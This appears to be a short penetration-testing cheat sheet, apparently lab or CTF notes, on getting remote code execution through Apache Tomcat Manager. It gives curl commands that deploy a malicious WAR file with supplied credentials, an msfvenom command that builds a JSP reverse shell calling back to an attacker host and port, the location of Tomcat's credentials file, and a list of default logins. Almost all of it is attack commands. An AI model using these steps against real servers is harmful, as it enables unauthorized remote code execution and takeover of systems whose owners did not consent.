 https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#rce
https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#limitations


Deploy malicious payload Using text based interface:
``/manager/text/list``

Upload using curl:
```bash
curl -u 'tomcat:$3cureP4s5w0rd123!' http://10.10.10.194:8080/manager/text/deploy?path=/0xdf --upload-file rev.10.10.14.18-443.war

curl http://10.10.10.95:8080/shell1/
```

Credentials Location:
`/usr/share/tomcat9/etc/tomcat-users.xml`

**Reverse Shell:**
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.5 LPORT=80 -f war > shell.war
```

**Default Credetials:**
_tomcat:s3cret_
_tomcat:tomcat_
_tomcat:[empty]_
_admin:admin_